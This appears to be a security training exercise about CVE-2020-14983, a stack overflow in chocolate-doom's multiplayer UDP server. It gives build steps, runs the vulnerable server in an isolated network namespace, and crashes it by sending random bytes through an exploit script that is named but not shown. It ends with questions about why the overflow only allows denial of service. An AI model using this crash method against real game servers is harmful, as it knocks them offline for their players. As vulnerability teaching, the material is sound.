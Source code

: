 A Real Stack Overflow Vulnerability in the `chocolate-doom` Doom Port
=====================================================================

This was a vulnerability handled in [bsc#1173595][1], CVE-2020-14983.

[1]: https://bugzilla.suse.com/show_bug.cgi?id=1173595

`chocolate-doom` is a port of the classical Doom 3D shooter engine to various
platforms. It aims to be as close to the original as possible.

The vulnerability is in network handling code for multiplayer games.

In the [upstream repo][2] the issue was fixed in [this commit][3] on the
master branch and in version 3.0.1. Tag 3.0.0 still contains the
vulnerability.

[2]: https://github.com/chocolate-doom/chocolate-doom.git

The vulnerability does not allow arbitrary code execution, only
denial-of-service. It is still an interesting case study.

Building chocolate-doom
-----------------------

```sh
# install required build dependencies
$ sudo zypper in libSDL2*-devel SDL2_*devel

# clone and checkout the vulnerable upstream version
$ git clone https://github.com/chocolate-doom/chocolate-doom.git
$ cd chocolate-doom
$ git checkout chocolate-doom-3.0.0

# setup an out-of-tree build
$ ./autogen.sh
$ make distclean
$ mkdir ../build
$ cd ../build

# the -fcommon switch is necessary with newer compilers to avoid a linker error
$ CFLAGS="-fcommon" ../chocolate-doom/configure --prefix=$PWD/../install
$ make
$ make install

# download a shareware version of the Doom1 data file
$ curl -O https://www.quaddicted.com/files/idgames/idstuff/doom/win95/doom95.zip
$ unzip doom95.zip DOOM1.WAD
$ mkdir -p ~/.local/share/games/doom
$ mv DOOM1.WAD ~/.local/share/games/doom/

# after this you can test whether the installation works by running the single
# player version of chocolate-doom. You need to do this is in a graphical
# environment:
$ cd ../install
$ ./bin/chocolate-doom
```

Running the Network Server
--------------------------

The buffer overflow issue is in the UDP network server code. `chocolate-doom`
does not seem to have a way to configure the listen address / network
interface to restrict its scope. Therefore, so that we don't have to connect
the vulnerable version to a live network, we run the server only in a
split-off network namespace:

```sh
# split-off a network and user namespace to run chocolate-doom in an isolated
# network environment
$ unshare -n -U -r
# set the new loopback device online
(net-ns) $ ip link set up dev lo

# enter the installation diretory of chocolate-doom
(net-ns) $ cd install
# run a dedicated server (this does not need a graphical environment)
(net-ns) $ ./bin/chocolate-doom -privateserver -dedicated
```

Triggering the Issue
--------------------

In a second shell we enter the new network namespace and connect to the server
using the `doom_exploiter.py` script. We simply send random data to trigger a
crash in the server:

```sh
$ nsenter -n -U --preserve-credentials -t `pidof chocolate-doom`
(net-ns) $ dd if=/dev/urandom of=exploit.bin bs=255 count=1
[...]
(net-ns) $ ./doom_exploiter.py --exploit exploit.bin localhost
```

In the original shell running chocolate-doom you should see:

```
                         Chocolate Doom 3.0.0
Z_Init: Init zone memory allocation daemon.
zone memory: 0x7f3ccb4ce010, 1000000 allocated for zone
Dedicated server mode.
Segmentation fault (core dumped)
```

Analysing the Issue
-------------------

Look at the [bugfix][3] for the issue. The vulnerable code is in
`NET_ReadSettings()`. The call to this function in the server context is
performed in `net_server.c:921`. There you can also see where the vulnerable
`net_gamesettings_t settings` buffer is placed onto the stack. Examine this
data type and its use in in the for loop in `net_structrw.c:119` to understand
the overflow scenario.

[3]: https://github.com/chocolate-doom/chocolate-doom/commit/f1a8d991aa8a14afcb605cf2f65cd15fda204c56

Why can this overflow not be used to achieve arbitrary code execution? Look at
the memory layout to see what happens during overflow. Also consider other
problems this overflow could have for full code execution.

Solution
--------

The limitation lies in the particular use of `NET_ReadInt8()` on `(unsigned int*)
&settings->player_classes[i]`. What happens when overflowing the 255 available
bytes?
